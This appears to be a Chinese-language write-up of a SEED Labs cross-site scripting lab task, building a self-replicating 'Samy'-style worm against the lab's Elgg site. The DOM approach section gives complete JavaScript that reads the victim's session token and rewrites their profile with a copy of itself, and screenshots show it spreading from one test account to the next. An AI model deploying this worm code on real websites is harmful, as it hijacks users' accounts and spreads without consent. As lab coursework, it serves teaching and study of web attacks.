 这个 Task 实现脚本自身的复制传播。

## Link Approach

只要让代码调用自己网站的 js，再把刚刚的代码放入自己网站的 js 中即可。它和下面 DOM 原理一模一样，没啥区别。这里我找来找去没找到实验提供的站点来放 js，所以就先跳过。:(

## DOM Approach

编辑 Samy 的 profile，使其可以把自己赋值到别人的 profile 中

```html
<script id="worm">
    var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>";
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    window.onload = function(){
        var userName="&name="+elgg.session.user.name;
        var guid="&guid="+elgg.session.user.guid;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        
        var content=token + ts + userName +
            "&description=" + wormCode + "&accesslevel[description]=2" + 
            "&briefdescription=samy%20is%20my%20hero&accesslevel[briefdescription]=2" +
            guid;
        var samyGuid=59;
        var sendurl="http://www.seed-server.com/action/profile/edit";
        
        if(elgg.session.user.guid!=samyGuid)
        {
            var Ajax=null;
            Ajax=new XMLHttpRequest();
            Ajax.open("POST", sendurl, true);
            Ajax.setRequestHeader("Content-Type",
                                  "application/x-www-form-urlencoded");
            Ajax.send(content);
        }
    }
</script>
```

<img src="https://i.loli.net/2021/07/21/8mB5kxCUr2JfwTL.png" alt="image-20210720182021143" style="zoom:67%;" />

登录 Alice 账号，查看 Samy 的 profile，看到自己的 profile 已经被修改了

<img src="https://i.loli.net/2021/07/21/eTE483igxpwtObP.png" alt="image-20210720181926895" style="zoom:67%;" />

登录 Charlie 账号，查看 Alice 的 profile，看到自己的 profile 已经被修改了

<img src="https://i.loli.net/2021/07/21/nHjt5WbYi2pTL7Z.png" alt="image-20210720181952198" style="zoom:67%;" />
